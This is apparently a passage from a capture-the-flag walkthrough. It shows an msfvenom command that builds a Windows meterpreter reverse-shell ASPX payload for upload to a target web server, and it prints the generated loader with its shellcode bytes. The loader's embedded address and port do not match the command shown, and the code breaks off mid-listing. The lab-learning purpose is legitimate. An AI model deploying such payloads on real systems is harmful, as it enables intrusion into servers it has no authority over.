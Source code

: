 We can log in anonymously, and we have write access. This is very good for us. As we can now save our own files to the target server.

I first tried uploading a php reverse shell, but it did not work. So what other web based applications are there to use? Well, we can see that there is an aspnet_client folder in the web server. ASP.NET is a server-side web-application framework, and uses the .aspx suffix. So we use metasploit to create a reverse shell in aspx.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=1234 -f aspx > hello.aspx`

Here we use -p to select a payload, a reverse_tcp as the type, set our ip as the LHOST, and a port. -f signals that we are creating an .aspx file. And we output it to a file.

Which looks like this:

```
<%@ Page Language="C#" AutoEventWireup="true" %>
<%@ Import Namespace="System.IO" %>
<script runat="server">
    private static Int32 MEM_COMMIT=0x1000;
    private static IntPtr PAGE_EXECUTE_READWRITE=(IntPtr)0x40;

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr,UIntPtr size,Int32 flAllocationType,IntPtr flProtect);

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr CreateThread(IntPtr lpThreadAttributes,UIntPtr dwStackSize,IntPtr lpStartAddress,IntPtr param,Int32 dwCreationFlags,ref IntPtr lpThreadId);

    protected void Page_Load(object sender, EventArgs e)
    {
        byte[] g0KiVu1Ql = new byte[354] {
0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x64,0x8b,0x52,0x30,0x89,0xe5,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x31,0xff,0x8b,0x72,
0x28,0x0f,0xb7,0x4a,0x26,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0x49,0x75,0xef,0x52,0x8b,0x52,
0x10,0x8b,0x42,0x3c,0x57,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x01,0xd3,
0x85,0xc9,0x74,0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,
0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,
0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,
0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,
0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0x0a,0x0a,0x0e,0x4b,0x68,0x02,0x00,0x05,0x39,0x89,0xe6,
0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,
0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,
0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,
0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,
0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,
0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,
0x00,0x53,0xff,0xd5 };

        IntPtr ejiJULy = VirtualAlloc(IntPtr.Zero,(UIntPtr)g0KiVu1Ql.Length,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        System.Runtime.InteropServices.Marshal.Copy(g0KiVu1Ql,0,ejiJULy,g0KiVu1Ql.Length);
```